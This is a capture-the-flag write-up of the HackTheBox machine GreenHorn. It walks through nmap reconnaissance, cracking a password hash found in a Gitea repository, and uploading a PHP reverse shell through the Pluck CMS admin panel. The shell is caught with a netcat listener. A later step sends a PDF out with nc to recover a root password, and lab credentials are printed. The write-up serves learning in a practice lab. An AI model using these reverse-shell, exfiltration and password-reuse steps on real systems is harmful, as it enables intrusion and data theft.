 As usual, I start by scanning the target machine with nmap, we see only two open ports

<pre><code>> sudo nmap -p80,22 -sCV -Pn 10.10.11.25 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-10 23:25 -03
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: pluck 4.7.18
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds</code></pre>

if we try to access the page, we will not be able to

In many CTF scenarios, access to a service or web page that is hosted on a remote machine is required. In real network environments, IP addresses are associated with domain names via DNS servers, but in CTF environments, there is not always a DNS server that resolves the hostname.
For this reason, you need to manually add that in your /etc/hosts file.

<pre><code>~> echo "10.10.11.25 greenhorn.htb" | sudo tee -a /etc/hosts</code></pre>

once we are on the page the first thing I saw was a login, after a long time (more than I would like to admit) trying to breach it and thinking that the purpose of the machine was that I finally gave up and went back to do the reconnaissance to check if I missed anything.

![1](https://github.com/user-attachments/assets/b2fdb538-9fac-4aec-96ae-4f8fb2d34024)



![2](https://github.com/user-attachments/assets/f18c2462-5bac-4cd6-90c9-622ecd6aeeb0)

I had to rescan the machine with nmap to see that port 3000 was open.
<pre><code>Discovered open port 3000/tcp on 10.10.11.25</code></pre>

now with this new information I have accessed the site again but this time from port 3000.

![5](https://github.com/user-attachments/assets/aa2c5d34-6d7d-4b0c-81be-16f498f08a45)

with gobuster I found this repository

![6](https://github.com/user-attachments/assets/74013583-4a85-41c6-80e5-fd41f75dfe45)

after looking through most of the files in the repository I found this hash 

![8](https://github.com/user-attachments/assets/5242ad32-0829-44c7-89d7-b744d0d18a17)

using hash-identifier I was able to know what kind of hash I was dealing with

<pre><code>> hash-identifier 
/usr/bin/hash-identifier:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------
 HASH: </code></pre>


if we decrypt the hash we get the a password

the first thing I did was to go to the login that I previously could not break and test if the password worked. and it did
![9](https://github.com/user-attachments/assets/958e53de-f096-444e-ac03-0ca04b592e89)

and we can see the administration interface of “Pluck”, a content management system.

![10](https://github.com/user-attachments/assets/7d1c8a0a-3b52-4fd4-8eb0-2ed65a46ea7c)
Malicious file upload is one of the most common vulnerabilities in CMS. This problem occurs when an attacker can upload malicious files to the server due to a lack of proper validation or filtering of the uploaded files.

Many CMSs allow administrators to upload plugins or modules to add new functionality. If these plugins are not properly designed, they can allow users to upload files of any type to the server.

and that is what we are going to do
![2](https://github.com/user-attachments/assets/b2fa9e4d-9bce-453f-8a91-134fd56680ae)

for this particular case what I had to do was to use a php reverse shell created by pentestmonkey and save it inside a .zip file
https://github.com/pentestmonkey/php-reverse-shell

and before uploading I start netcat 

<pre><code>> sudo nc -lvnp 3333</code></pre>

and we are in

<pre><code>Connection from 10.10.11.25:60296
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 03:46:01 up 17:45,  0 users,  load average: 0.00, 0.09, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ </code></pre>

I went to look for the user flag but I had no privileges.
<pre><code>$ cd /home/
$ ls
git
junior
$ cd junior
$ ls
Using OpenVAS.pdf
user.txt
$ cat user.txt
cat: user.txt: Permission denied</code></pre>


This command uses Python to invoke a Bash TTY shell, so we can work better
<pre><code>$ python3 -c 'import pty;pty.spawn("/bin/bash")'</code></pre>

I tried to put the credential we got previously with that hash and it worked, but only for the user Junior, I still had to escalate privileges.

<pre><code>www-data@greenhorn:/home/junior$ su junior
su junior
Password: iloveyou1

junior@greenhorn:~$ </code></pre>

<pre><code>junior@greenhorn:~$ cat user.txt
cat user.txt
????????????????????????</code></pre>

inside this pdf is the root password, the password is blurred and is a headache to get.

<pre><code>junior@greenhorn:~$ nc 10.10.11.25 1234 < 'Using OpenVAS.pdf'        
nc 10.10.11.25 1234 < 'Using OpenVAS.pdf'</code></pre>

<pre><code>~> nc -nlvp 1234 >  'Using OpenVAS.pdf'</code></pre>



<pre><code>junior@greenhorn:~$ su root
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
</code></pre>

<pre><code>root@greenhorn:~# cat root.txt
cat root.txt
???????????</code></pre>

![2024-09-11_01-02](https://github.com/user-attachments/assets/8eab8df5-38ca-4c16-9261-bf0d1e0baabe)

